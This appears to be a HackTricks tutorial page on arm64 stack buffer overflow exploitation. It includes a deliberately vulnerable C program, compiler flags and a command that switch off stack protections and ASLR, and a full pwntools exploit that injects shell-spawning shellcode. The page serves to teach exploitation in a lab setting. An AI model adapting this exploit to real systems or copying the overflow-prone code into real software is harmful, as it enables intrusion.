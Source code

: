 # Stack Shellcode - arm64

{{#include ../../../banners/hacktricks-training.md}}

Find an introduction to arm64 in:

{{#ref}}
../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md
{{#endref}}

## Code&#x20;

```c
#include <stdio.h>
#include <unistd.h>

void vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
    vulnerable_function();
    return 0;
}
```

Compile without pie, canary and nx:

```bash
clang -o bof bof.c -fno-stack-protector -Wno-format-security -no-pie -z execstack
```

## No ASLR & No canary - Stack Overflow&#x20;

To stop ASLR execute:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get the [**offset of the bof check this link**](../ret2win/ret2win-arm64.md#finding-the-offset).

Exploit:

```python
from pwn import *

# Load the binary
binary_name = './bof'
elf = context.binary = ELF(binary_name)

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Start the process
p = process(binary_name)

# Offset to return address
offset = 72

# Address in the stack after the return address
ret_address = p64(0xfffffffff1a0)

# Craft the payload
payload = b'A' * offset + ret_address + shellcode

print("Payload length: "+ str(len(payload)))

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```

The only "complicated" thing to find here would be the address in the stack to call. In my case I generated the exploit with the address found using gdb, but then when exploiting it it didn't work (because the stack address changed a bit).

I opened the generated **`core` file** (`gdb ./bog ./core`) and checked the real address of the start of the shellcode.

{{#include ../../../banners/hacktricks-training.md}}

